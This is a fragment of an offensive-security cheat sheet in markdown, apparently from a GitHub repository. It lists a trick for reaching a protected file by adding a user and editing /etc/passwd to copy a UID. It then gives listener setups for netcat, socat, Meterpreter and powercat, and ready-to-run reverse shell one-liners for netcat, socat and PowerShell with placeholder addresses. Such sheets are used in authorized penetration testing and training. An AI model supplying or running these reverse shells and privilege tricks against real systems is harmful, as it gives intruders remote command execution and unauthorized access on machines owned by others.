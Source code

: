 #### Open file with no permission to file
If a file found which we want to access but don’t have permissions. Make a user with the same username and change the UUID, change to the user so we can access the file.
```
sudo adduser pwn
sudo vim /etc/passwd
```

## Shells
- msfvenom https://netsec.ws/?p=331
### Listeners
#### Netcat listener
```
sudo nc -nlvp <PORT>
```

#### Socat listener
```
sudo socat -d -d TCP4-LISTEN:<PORT> STDOUT
```

#### Meterpreter listener
```
msfconsole
use multi/handler
set payload <PAYLOAD>
run
```

#### Powercat listener
```
. ./powercat.ps1
powercat -l -v -p 10000
```

### Reverse shells
- Generator tool https://github.com/mthbernardes/rsg
#### Netcat
```
nc -nv <IP> <PORT> -e /bin/bash
```

#### Socat
```
socat TCP4:<IP>:<PORT> EXEC:/bin/bash
```

#### Powershell
```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
